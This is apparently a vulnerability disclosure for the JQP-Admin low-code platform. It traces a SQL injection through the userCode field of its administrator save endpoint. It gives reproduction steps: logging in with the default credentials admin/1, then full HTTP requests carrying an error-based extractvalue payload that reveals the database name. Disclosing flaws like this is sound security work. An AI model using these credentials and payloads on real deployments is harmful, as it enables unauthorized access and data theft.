







## **Vulnerability Description**

JQP-Admin Low-Code Development Platform (master branch) contains a SQL injection vulnerability in the "Add/Edit" function of "Personnel Organization -> Super Administrator". When processing form submissions, the system fails to securely sanitize the user-controllable **Employee Code (`userCode`)** field. At `UserController.java` (around line 71), the code directly concatenates the value from the request body into the SQL condition `user_code = '$userCode'`. This concatenated malicious SQL statement is ultimately executed as-is without parameterization by `jdbcTemplate.query` in `MysqlJdbcDaoImpl.java` (around line 129). An attacker can exploit this by crafting a malicious `userCode` parameter, utilizing error-based injection methods to extract sensitive database information, resulting in severe data leakage.

Github地址：https://github.com/TedLiangHK/jqp-admin

Gitee地址：https://gitee.com/dushan1980/jqp-admin

## **Vulnerability Analysis**

**1. Default Weak Password Flaw**

The system contains a default administrator weak password (`admin` / `1`). Since the system does not enforce password modification upon first login or initial configuration, an attacker can directly use this weak password to log into the backend and gain administrative privileges. This provides a valid authenticated session (Session/Cookie) for subsequent deeper attacks (such as exploiting SQL injection).

**2. SQL Injection Vulnerability (Root Cause)**

A SQL injection vulnerability exists in the "Add/Edit" form submission function of "Personnel Organization -> Super Administrator". The `userCode` (Employee Code) parameter from the frontend is fully user-controllable. In `UserController.java` (around line 71), the code directly concatenates it into the SQL condition `user_code = '$userCode'` without any filtering or escaping. The resulting malicious SQL is ultimately executed as-is without parameterization by `jdbcTemplate.query` in `MysqlJdbcDaoImpl.java` (around line 129), allowing an attacker to exploit error-based injection to extract sensitive database information.

com.jqp.admin.rbac.controller.UserController#save方法



com.jqp.admin.db.service.impl.MysqlJdbcServiceImpl#isRepeat方法



com.jqp.admin.db.service.impl.MysqlJdbcDaoImpl#find方法



**Execution Path**

```
POST /admin/user/user/save
  body.userCode
    │
    ▼
UserController.save(@RequestBody User user, @PathVariable("formCode") String formCode)
    │  [UserController.java#L65-L71]
    │
    ├─ params.put("userCode", user.getUserCode())        L70
    │
    └─ jdbcService.isRepeat(
           "select id from user where user_code = '$userCode' and id <> $id ",
           params)                                        L71
         │
         ▼
MysqlJdbcServiceImpl.isRepeat(String sql, Map<String,Object> params)
    │  [MysqlJdbcServiceImpl.java#L286-L295]
    │
    ├─ sql = TemplateUtil.getValue(sql, params)           L294
    │
    └─ this.find(sql)                                     L295
         │
         ▼
MysqlJdbcDaoImpl.find(String sql, Object... args)
    │  [MysqlJdbcDaoImpl.java#L127-L130]
    │
    └─ jdbcTemplate.query(sql, RowMapperUtil.newMapMapper(), args)   L129
         │
         ▼
    org.springframework.jdbc.core.JdbcTemplate#query(String, RowMapper, Object...)
```


## **Steps to Reproduce**

**Step 1: Login with Default Weak Credentials**

Access the JQP-Admin login page, enter the default weak credentials (`admin` / `1`), and click login to successfully enter the backend management dashboard.





```
POST /admin/user/login HTTP/1.1
Host: localhost:8080
Content-Length: 38
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/lyear_pages_login.html?t=1794575525079
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=875DD67F213BD56CD18CC15FAF0F3D9E
Connection: keep-alive

username=admin&password=1&captcha=gczz
```

**Step 2: Locate and Intercept the Form Submission Request**

Navigate to the "Personnel Organization -> Super Administrator" page in the left sidebar. Click the "Add" or "Edit" button. After filling in the relevant information, click "Save" and use a proxy tool like Burp Suite to intercept the HTTP request.

Observe that the request is `POST /admin/user/user/save`, and the request body contains the `userCode` parameter.




**Step 3: Craft the Payload and Verify the Injection Result**

Modify the `userCode` parameter in the request body to the MySQL error-based injection payload: `x' OR extractvalue(1,concat(0x7e,database()))--`, and send the request. The server response contains the MySQL error message `XPATH syntax error: '~jqp~'`, successfully reflecting the current database name and confirming the SQL injection vulnerability in the `userCode` parameter.



```
POST /admin/user/user/save HTTP/1.1
Host: localhost:8080
Content-Length: 161
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/crud/user?v=1794646713044
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=6A71A01390E620D1B586ABC961B26772; token=9dd70cbe-309e-4df7-81b9-b8c337bd3ecc
Connection: keep-alive

{"id":"","avatar":"","userCode":"x' OR extractvalue(1,concat(0x7e,database()))-- ","name":"test","mobile":"","userType":"admin","userStatus":"2","otherFiles":""}
```
